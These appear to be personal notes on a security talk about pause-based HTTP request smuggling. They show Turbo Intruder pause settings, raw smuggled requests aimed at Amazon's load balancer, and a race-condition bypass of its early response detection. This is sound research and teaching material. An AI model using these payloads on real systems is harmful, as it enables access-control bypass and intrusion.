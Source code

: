 ```
Host: example.com
```
```RESPONSE2
HTTP/1.1 404 Not Found
```
![[Pasted image 20240811005344.png]]
So i've updated Turbo Intruder to add a coople of different ways of saying where in the request you wanna pause
**Turbo Intrude queu() arguments:**
	`pauseTime=20000, pauseBefore=-41, pauseMarker=['GET']`
![[Pasted image 20240811005431.png]]
and how long you want to pause for. So that's it, it's fairly simple. And we migth be wondering, well, what the front-end servers actually stram request like this? To be honest, I couldn't be bothered looking at very many, but it worked on the first one i tried, which was Amazon's Application Load Balancer. 
```
POST /admin HTTP/1.1
Content-Length: 23


```
```
HTTP/1.1 403 Forbidden
```
![[Pasted image 20240811005729.png]]
However, there's one extra catch, which is that they've got a defensive measure. I'll call early response detection. It's a bit like Crhome behavior we saw aerlier, but slightly different. So if Amazons ALB sees the response coming in from the back-end before our request is completed, then, they'll forward that response on, but then they'll dump the connection. They won't reuse it and our attack will fail. 
```
POST /admin HTTP/1.1
Content-Length: 23

GET /404 HTTP/1.1
X: Y
```
```
HTTP/1.1 403 Forbidden
```

![[Pasted image 20240811010044.png]]
Fortunately, this seems to be designed to prevent bugs rather than actual attackers. And there's a really obious race condition in it. So it's quite easy to bypass. All you need to do is identify the back-end timeout and make the orange payload hit the front-end and make that first payload hit the front-end and the time window between the back-end generatin that timeout response and the front-end niticing it. 
```
POST /admin HTTP/1.1
Content-Length: 23

GET /404 HTTP/1.1
X: Y

GET / HTTP/1.1
Host: example.com
```
(diez segundos de envío, diez de respuesta)
```response1
HTTP/1.1 403 Forbidden
```
```response2
HTTP/1.1 404 Not FOund
```
